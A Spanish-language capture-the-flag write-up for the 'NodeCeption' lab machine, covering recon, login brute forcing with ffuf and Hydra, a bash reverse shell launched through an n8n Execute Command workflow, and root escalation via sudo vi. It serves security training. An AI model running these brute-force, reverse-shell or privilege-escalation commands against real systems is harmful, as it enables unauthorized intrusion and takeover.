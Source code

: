 # NodeCeption | TheHackersLabs
## 📡 Reconocimiento
### 🌐 Descubrimiento de red
Realicé un escaneo ARP para identificar los dispositivos en la red:
```bash
sudo arp-scan -I eth0 --localnet
```
Se identificó el host 192.168.1.115.
```bash
ping -c 1 192.168.1.115
```
La máquina respondió correctamente, confirmando que estaba activa.

### 🔍 Escaneo de puertos y servicios
Se ejecutó un escaneo masivo con Nmap:
```bash
nmap -p- --open -sS -sC -sV --min-rate=5000 -Pn -n 192.168.1.115 -oN escaneo.txt
```
Puertos abiertos:
- 22/tcp → OpenSSH 9.6p1
- 5678/tcp → Servicio HTTP (n8n)
- 8765/tcp → Apache 2.4.58

## 🔢 Enumeración
### 🌐 Enumeración del servidor web
Al acceder a http://192.168.1.115:8765, se visualizó la página por defecto de Apache.

En el código fuente HTML se encontró este comentario:
```text
usuario@maildelctf.com
Espero que hayas cambiado la contraseña como se te indicó.
Recuerda: mínimo 8 caracteres, al menos 1 número y 1 mayúscula.
```

Se sospecha de un login oculto → se usó Gobuster:
```bash
gobuster dir -u http://192.168.1.115:8765 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html,txt
```
Resultado:
/login.php (Status: 200)

### 🕵️ Fuerza bruta HTTP
La interfaz de login solicita correo + contraseña. Se utilizó Burp Suite para capturar la petición y luego:
```bash
ffuf -w /usr/share/wordlists/rockyou.txt -X POST \
 -d "email=usuario@maildelctf.com&password=FUZZ" \
 -u http://192.168.1.115:8765/login.php \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -mc all -fs 1808
```
Credenciales válidas encontradas:
```text
usuario@maildelctf.com : Password1
```
Acceso exitoso al panel.

## 💥 Explotación
### 📦 Acceso al panel n8n
Con las mismas credenciales accedimos a http://192.168.1.115:5678, el panel de n8n.

Se creó un workflow malicioso con un nodo Execute Command que lanzó una reverse shell:
```bash
bash -c 'bash -i >& /dev/tcp/192.168.1.109/4444 0>&1'
```
En el atacante:
```bash
nc -nlvp 4444
```
Resultado: shell como thl.

🐚 Reverse Shell
Se ejecutó manualmente el workflow desde la interfaz.

En el equipo atacante se obtuvo una reverse shell como usuario thl.

## 🧗 Escalada de Privilegios
### 🔐 Sudo -l
```text
(ALL) NOPASSWD: /usr/bin/vi
(ALL : ALL) ALL
```

### 🔐 Intento de Escalada con sudo vi
Se intentó ejecutar:
```bash
sudo /usr/bin/vi
```
Pero pedía contraseña a pesar del NOPASSWD, probablemente por interferencia del segundo sudo rule.

### 🧨 Fuerza bruta con Hydra
Se usó hydra para forzar el acceso por SSH:
```bash
hydra -l thl -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.115 -vvv
```
Resultado:
```text
login: thl
password: basketball
```

### 🔼 Escalada de Privilegios (root)
Ahora con TTY funcional (por SSH directo) se ejecutó:
```bash
sudo vi -c ':!/bin/sh' /dev/null
```
Resultado:
```text
# whoami
root
```

## 🏁 Post Escalada
- Se accedió al sistema con permisos de root.
- Se localizaron y leyeron flags finales.
